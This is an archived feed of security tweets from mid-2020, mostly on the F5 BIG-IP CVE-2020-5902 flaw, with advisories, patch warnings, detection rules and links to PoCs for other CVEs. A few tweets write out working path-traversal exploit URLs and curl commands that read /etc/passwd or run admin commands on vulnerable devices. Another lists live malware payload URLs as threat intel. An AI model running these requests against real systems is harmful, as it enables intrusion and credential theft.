https://t.co/aJm1oPboj6 https://t.co/vHZbvOln22
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22F5%20BIG-IP%20TMUI%20RCE%22

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>237</code></td>
</tr></table>

---
# infosecnews_
**https://twitter.com/infosecnews_/status/1280096111332655105 _at Mon Jul 06 11:07:50 +0000 2020_**
<blockquote>
USCYBERCOM urgently recommends F5 customers to patch CVE-2020-5902 and 5903 NOW https://t.co/PHxFRwUPV1 #InfoSec #Security #F5 #InfoSecNews #RCE #PoC #ZeroDay #Hacker #Hackers #Hacking #Russia #China #CVE #USCYBERCOM
</blockquote>

* https://www.infosecnews.org/uscybercom-urgently-recommends-f5-customers-to-patch-cve-2020-5902-and-5903-now/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1280070065896017926 _at Mon Jul 06 09:24:20 +0000 2020_**
<blockquote>
We're now seeing staged payloads for the F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 vuln - see - https://t.co/sSr4JIZwu3 https://t.co/o1Z7lTWSW8
</blockquote>

* https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1280033103751282689 _at Mon Jul 06 06:57:28 +0000 2020_**
<blockquote>
RT @wugeej: F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/pass…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1280008779359125504 _at Mon Jul 06 05:20:49 +0000 2020_**
<blockquote>
F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license

RCE
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

https://t.co/3Ete09oVP6 https://t.co/zBAfdIZBa2
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>176</code></td>
<td>Favorites: <code>453</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1279986441385172993 _at Mon Jul 06 03:52:03 +0000 2020_**
<blockquote>
Active DDoS malware payload detected:
http://panel.devilsden[.]net/iot.sh
http://185.172.111.233:999/sisi/*
 (https://t.co/qmOnNTxywH)

Exploit attempt source IP: 2.57.122.96 (🇷🇴)

Target: F5 BIG-IP TMUI RCE vulnerability CVE-2020-5902 (https://t.co/y5Uor8B0qi) #threatintel https://t.co/oprQHizid7
</blockquote>

* https://www.virustotal.com/gui/url/d855d772abbc14e7629ce714fa563d1c0e46c35a2bd86f5325724e6a9c35986c/details
* https://badpackets.net/over-1800-f5-big-ip-endpoints-vulnerable-to-cve-2020-5902/

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---
# certbund
**https://twitter.com/certbund/status/1279892212449447941 _at Sun Jul 05 21:37:37 +0000 2020_**
<blockquote>
🩹⚠️ Operators of #F5 BIG-IP systems (LTM, AAM, AFM, Analytics, APM, ASM, DNS, FPS, GTM, Link Controller, PEM) should patch ➡️ remote code execution vulnerability CVE-2020-5902 in Traffic Management User Interface (TMUI) now. Active scanning/exploitation is ongoing.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# omespino
**https://twitter.com/omespino/status/1279885683255984129 _at Sun Jul 05 21:11:40 +0000 2020_**
<blockquote>
Hey mates, it's just me or twitter feed is flooded of CVE-2020-5902, lol #bugbounty #infosec https://t.co/VIJwRHwwSP
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>378</code></td>
</tr></table>

---
# catc0n
**https://twitter.com/catc0n/status/1279883738579709952 _at Sun Jul 05 21:03:57 +0000 2020_**
<blockquote>
We've seen a lot of PoC for CVE-2020-5902 that gets to file reads or info disclosures—Metasploit published initial exploit code today that gets a root shell on vulnerable BIG-IP versions. https://t.co/2Thr74Rt8R
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>201</code></td>
<td>Favorites: <code>382</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279882456175276032 _at Sun Jul 05 20:58:51 +0000 2020_**
<blockquote>
Here's an NMAP script to detect F5's BIG-IP servers vulnerable to recently disclosed RCE #vulnerability (CVE-2020-5902).

https://t.co/voeLuOHz2u

via @RandomDhiraj 

#infosec
</blockquote>

* https://twitter.com/RandomDhiraj/status/1279842348348956672

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---
# MrTuxracer
**https://twitter.com/MrTuxracer/status/1279869037607084032 _at Sun Jul 05 20:05:32 +0000 2020_**
<blockquote>
While everybody is working on CVE-2020-5902, I am trying to get my first own browser exploit to work. My ROP chain to bypass DEP seems to be the problem atm and it drives me super crazy 🦄🦄

But it still feels good to get back to my roots!😊
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---
# cyber_advising
**https://twitter.com/cyber_advising/status/1279848212606615552 _at Sun Jul 05 18:42:46 +0000 2020_**
<blockquote>
CVE-2020-5902 F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed.. https://t.co/laQLPQXf7K
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# bad_packets
**https://twitter.com/bad_packets/status/1279843915978338304 _at Sun Jul 05 18:25:42 +0000 2020_**
<blockquote>
Our preliminary CVE-2020-5902 scans have located 1,832 vulnerable F5 hosts.

System administrators need to upgrade to fixed versions ASAP. A proof-of-concept exploit is now publicly available.
</blockquote>

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---
# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1279842348348956672 _at Sun Jul 05 18:19:28 +0000 2020_**
<blockquote>
A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>944</code></td>
</tr></table>

---
# xer0dayz
**https://twitter.com/xer0dayz/status/1279815244303331328 _at Sun Jul 05 16:31:46 +0000 2020_**
<blockquote>
Added sc0pe templates to scan and detect CVE-2020-5902 Remote Code Execution &amp; XSS on F5 BIG-IP devices to Sn1per. https://t.co/qEnX1iZ8H4

#hackers #hacking #bugbounty #bugbountytips #pentesting #pentest #redteam #OSINT #recon #tools #offsec #CTF #netsec #PoC #exploit
</blockquote>

* https://github.com/1N3/Sn1per

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---
# x4ce
**https://twitter.com/x4ce/status/1279790599793545216 _at Sun Jul 05 14:53:51 +0000 2020_**
<blockquote>
cve-2020-5902 :
RCE: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
Read File: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

Well, Thanks Me Letter.
</blockquote>

<table><tr>
<td>Quotes: <code>38</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>379</code></td>
<td>Favorites: <code>696</code></td>
</tr></table>

---
# rimpq
**https://twitter.com/rimpq/status/1279771865247109120 _at Sun Jul 05 13:39:24 +0000 2020_**
<blockquote>
Rules to detect exploitation of #F5 BIG-IP TMUI #vulnerability (#CVE-2020-5902)

#SIGMA (by @cyb3rops / @SOC_Prime ):
➡️ https://t.co/SLZLrl4gVG
➡️https://t.co/W3hSLbCnul 

#Snort/#Suricata by @ET_Labs (ET Open):
➡️https://t.co/gbJdyKOWHY 
#BlueTeam #SOC #ThreatHunting #Exploit https://t.co/96TYY2I2Rm
</blockquote>

* https://tdm.socprime.com/tdm/info/a3bYpIF6od6C
* https://github.com/Neo23x0/sigma/blob/master/rules/web/web_cve_2020_5902_f5_bigip.yml
* https://pastebin.com/2PbtrJ28

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>264</code></td>
</tr></table>

---
# CharlesDardaman
**https://twitter.com/CharlesDardaman/status/1279581691573567489 _at Sun Jul 05 01:03:43 +0000 2020_**
<blockquote>
Spent some time with @0xm1rch to get our exploit working for the F5 Big-IP TMUI vuln (CVE-2020-5902) We also got LPE working easily #infosec https://t.co/BxMUSPcLAD
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>266</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1279523931624484866 _at Sat Jul 04 21:14:12 +0000 2020_**
<blockquote>
F5 has released a security advisory to address a critical RCE vulnerability (CVE-2020-5902) in the BIG-IP Traffic Management User Interface (TMUI). Read more at https://t.co/aHxgi33mdV #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xfqJA

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>304</code></td>
</tr></table>

---
# F5Security
**https://twitter.com/F5Security/status/1279474093486747648 _at Sat Jul 04 17:56:10 +0000 2020_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/4xADlQ3N6V #BIGIP #AskF5
</blockquote>

* https://go.f5.net/s3pfp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279423483303194624 _at Sat Jul 04 14:35:03 +0000 2020_**
<blockquote>
Critical Unauthorized RCE #Vulnerability (CVE-2020-5902 with CVSS Score 10/10) Affects F5's BIG-IP Application Security Servers Used in large Enterprises, Data Centers, and #CloudComputing Environments.

Details — https://t.co/6Fmean9wC4

Apply Newly Released Patch Updates ASAP! https://t.co/AWIRTMoHft
</blockquote>

* https://thehackernews.com/2020/07/f5-big-ip-application-security.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>193</code></td>
<td>Favorites: <code>288</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1279158081847468033 _at Fri Jul 03 21:00:26 +0000 2020_**
<blockquote>
RT @CNMF_CyberAlert: URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately. https://t.co/…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# CNMF_CyberAlert
**https://twitter.com/CNMF_CyberAlert/status/1279151966178902016 _at Fri Jul 03 20:36:08 +0000 2020_**
<blockquote>
URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately.
</blockquote>

<table><tr>
<td>Quotes: <code>92</code></td>
<td>Replies: <code>27</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>1233</code></td>
</tr></table>

---
# F5
**https://twitter.com/F5/status/1279022116868960257 _at Fri Jul 03 12:00:10 +0000 2020_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/yTL0iUBajI #BIGIP #AskF5
</blockquote>

* https://go.f5.net/dk3nl

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>359</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---
# pentestltd
**https://twitter.com/pentestltd/status/1278961377768546304 _at Fri Jul 03 07:58:49 +0000 2020_**
<blockquote>
Read all about our latest #research - A Remote Code Execution (RCE) vulnerability our researchers found within #Drupal Core, versions 8 &amp; 9 (CVE-2020-13664). Huge well to Lorenzo Grespan and @_s_n_t for all their hard work on this ---&gt; https://t.co/8yZdsHMQPo https://t.co/iv9z4zL8dF
</blockquote>

* https://buff.ly/3iyKSr0

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---
# yorickkoster
**https://twitter.com/yorickkoster/status/1278252429289684998 _at Wed Jul 01 09:01:42 +0000 2020_**
<blockquote>
Now that the cat is out of the bag, I have made my BitDefender VPN LPE proof of concept public:

https://t.co/RCaf6bDflX

Great job describing your research approach for CVE-2020-12828 @0xsha 👍
</blockquote>

* https://gist.github.com/ykoster/b627130ea1ec1e4d5a1b996092077805

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1278192608775454722 _at Wed Jul 01 05:04:00 +0000 2020_**
<blockquote>
Microsoft has releases an emergency security update on Monday to fix two RCE bugs in the Windows Codecs Library

-Update delivered through the Windows Store
-No user interaction needed
-CVE-2020-1425 &amp; CVE-2020-1457

https://t.co/RyA1yhmU1m https://t.co/3auScXsswZ
</blockquote>

* https://www.zdnet.com/article/microsoft-releases-emergency-security-update-to-fix-two-bugs-in-windows-codecs/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# pwn_expoit
**https://twitter.com/pwn_expoit/status/1277861624963952641 _at Tue Jun 30 07:08:47 +0000 2020_**
<blockquote>
i forgot about my bug :D i reported android sbx in April. i will soon post writeup about Exploitation using it. https://t.co/YH4STKbHQw
[$20000][1073015] High CVE-2020-6465: Use after free in reader mode. Reported by Woojin Oh(@pwn_expoit) of STEALIEN on 2020-04-21
</blockquote>

* https://chromereleases.googleblog.com/2020/05/stable-channel-update-for-desktop_19.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1276927201645125639 _at Sat Jun 27 17:15:43 +0000 2020_**
<blockquote>
CVE-2020-10665 Docker Desktop Local Privilege Escalation  https://t.co/x2tFjum5dB  #Pentesting #Windows #ReverseShell #CyberSecurity #Infosec https://t.co/xRGneYxkC2
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# i_bo0om
**https://twitter.com/i_bo0om/status/1276503780687777792 _at Fri Jun 26 13:13:12 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) 

https://t.co/jvURLAvdVQ
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---
# movaxbx2
**https://twitter.com/movaxbx2/status/1276461577395335170 _at Fri Jun 26 10:25:30 +0000 2020_**
<blockquote>
Microsoft Windows LNK Remote Code Execution Vulnerability – CVE-2020-1299 https://t.co/QQ6OtWE04U
</blockquote>

* https://movaxbx.ru/2020/06/26/microsoft-windows-lnk-remote-code-execution-vulnerability-cve-2020-1299/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>245</code></td>
<td>Favorites: <code>433</code></td>
</tr></table>

---
# spaceraccoonsec
**https://twitter.com/spaceraccoonsec/status/1276123691156254720 _at Thu Jun 25 12:02:51 +0000 2020_**
<blockquote>
Wrote the first public exploit of CVE-2020-10665 Docker Desktop Local Privilege Escalation! It was challenging picking up C++ as well as multiple exploit stages (hard link spraying, DLL overwrite, printer API call) but learned a lot :) https://t.co/zMcO3keyfc https://t.co/nqSUTbQT5k
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>178</code></td>
<td>Favorites: <code>586</code></td>
</tr></table>

---
# EyalItkin
**https://twitter.com/EyalItkin/status/1275835583198347265 _at Wed Jun 24 16:58:01 +0000 2020_**
<blockquote>
In his latest blog, @oct0xor confirms our attribution of Magniber's LPE exploit (probably CVE-2018-8641) to Volodya.

This is just 1 of 11(!) LPE exploits by this actor that we've analyzed. More details in the upcoming VB2020 talk by @megabeets_ and I.

https://t.co/Cs8o0WDn9J
</blockquote>

* https://securelist.com/magnitude-exploit-kit-evolution/97436/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/1274235147861331968 _at Sat Jun 20 06:58:28 +0000 2020_**
<blockquote>
A Click from the Backyard | Analysis of CVE-2020-9332, a Vulnerable USB Redirection Software -&gt; UAC Bypass 😎

- great research by @SentinelOne thanks for sharing 

Post &amp; PoC
https://t.co/9YURglq5ae

#infosec #pentest #exploitDev
</blockquote>

* https://labs.sentinelone.com/click-from-the-backyard-cve-2020-9332/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---
# K3vinLuSec
**https://twitter.com/K3vinLuSec/status/1273413397371969536 _at Thu Jun 18 00:33:07 +0000 2020_**
<blockquote>
Pwn BlueFrag: CVE-2020-0022 RCE Exploit For Android 8.0-9.0, many thanks to https://t.co/oqKLq9X265. Debugging all details step by step with GDB is so much fun.
</blockquote>

* https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>127</code></td>
<td>Favorites: <code>269</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1273275586216157185 _at Wed Jun 17 15:25:30 +0000 2020_**
<blockquote>
A deep look at CVE-2020-1181: RCE in #SharePoint through Web Parts. An anonymous researcher sent this to us and #Microsoft patched it last week. Includes step-by-step PoC. https://t.co/YmVUFmMG1y
</blockquote>

* https://bit.ly/37CAHwp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>236</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1273187803707432961 _at Wed Jun 17 09:36:41 +0000 2020_**
<blockquote>
Exploit code and write-up for Windows Denial of Service Vulnerability (CVE-2020-1283)

Don't ask me about MS' description :-)

https://t.co/yw7ctlAGVy
-------
#bug #Microsoft #Windows #0day #exploit #vulnerability #DOS #BSoD #RedyOpsLabs #redteam #pentest #infosec #CVE #bugbounty
</blockquote>

* https://labs.redyops.com/index.php/2020/04/27/dos-via-arbitrary-folder-creation/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1272955972651114497 _at Tue Jun 16 18:15:28 +0000 2020_**
<blockquote>
Researchers release details for a new TOCTOU Privilege Escalation (CVE-2020-13162) vulnerability affecting Pulse Secure Client for Windows (versions &lt;9.1.6)

Details: https://t.co/voRLZbj2bw

#infosec #cybersecurity https://t.co/hCvMIUPJFl
</blockquote>

* https://www.redtimmy.com/privilege-escalation/pulse-secure-client-for-windows-9-1-6-toctou-privilege-escalation-cve-2020-13162/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---
# _Icewall
**https://twitter.com/_Icewall/status/1272464789311311872 _at Mon Jun 15 09:43:41 +0000 2020_**
<blockquote>
Two of my MS Office reported vulns patched in June:

CVE-2020-1225 - Microsoft Office Excel HTML and XML Table UAF
https://t.co/pb9k89p3Q3

CVE-2020-1226 Microsoft Office Excel PivotField UAF 
https://t.co/4zRFDstNHM
</blockquote>

* https://talosintelligence.com/vulnerability_reports/TALOS-2020-1045
* https://talosintelligence.com/vulnerability_reports/TALOS-2020-1027

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---
# R3dF09
**https://twitter.com/R3dF09/status/1271485928989528064 _at Fri Jun 12 16:54:03 +0000 2020_**
<blockquote>
Demo of #EvilPrinter (CVE-2020-1300). Remote SYSTEM shell with just one connection attempt.
Also LPE and Sandbox Escape from Edge renderer on all modern Windows versions. https://t.co/VToEqCAAtb
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>287</code></td>
<td>Favorites: <code>655</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1271146453881274368 _at Thu Jun 11 18:25:06 +0000 2020_**
<blockquote>
In case you missed it, the exploit code and Write-up for Symantec Endpoint Protection (SEP) 14.2 RU2 EoP (CVE-2020-5837) is here:

https://t.co/Y3AFuqXl1E

#Symantec #0day #exploit #vulnerability #EoP #RedyOpsLabs #cybersecurity #infosec #bugbounty #redteam #SEP #SEPM
</blockquote>

* https://labs.redyops.com/index.php/2020/04/27/symantec-endpoint-protection-sep-14-2-eop-via-arbitrary-write/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---
# VDIHacker
**https://twitter.com/VDIHacker/status/1271044690264145920 _at Thu Jun 11 11:40:43 +0000 2020_**
<blockquote>
Citrix vulnerability for Workspace App for Windows Only with bad file permissions that can allow malicious DLLs or EXEs to be executed. No RCE but definitely something you want to patch. https://t.co/6m9flhe4da
CVE-2020-13884
CVE-2020-13885
</blockquote>

* https://support.citrix.com/article/CTX275460

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1270483058496585728 _at Tue Jun 09 22:29:00 +0000 2020_**
<blockquote>
Technical write-up for SMBleedingGhost (CVE-2020-1206), a pre-auth info disclosure in SMBv3: https://t.co/3gwcYOFGmw

Technical write-up for SMBLost (CVE-2020-1206), a post-auth RCE in SMBv1: https://t.co/ftKjcGFyX9 https://t.co/FqYZYp23yQ
</blockquote>

* https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/
* https://airbus-cyber-security.com/diving-into-the-smblost-vulnerability-cve-2020-1301/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1270477054954188802 _at Tue Jun 09 22:05:08 +0000 2020_**
<blockquote>
GitHub - ZecOps/CVE-2020-0796-RCE-POC: CVE-2020-0796 Remote Code Execution POC - https://t.co/5Gmtv1Zpv0
</blockquote>

* https://github.com/ZecOps/CVE-2020-0796-RCE-POC/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---
# cyb3rops
**https://twitter.com/cyb3rops/status/1270461568900358144 _at Tue Jun 09 21:03:36 +0000 2020_**
<blockquote>
CVE-2020-1301 | Windows SMB Remote Code Execution Vulnerability

- all Windows versions affected

https://t.co/dNZfQrSgPv https://t.co/0hWG6m8EqU
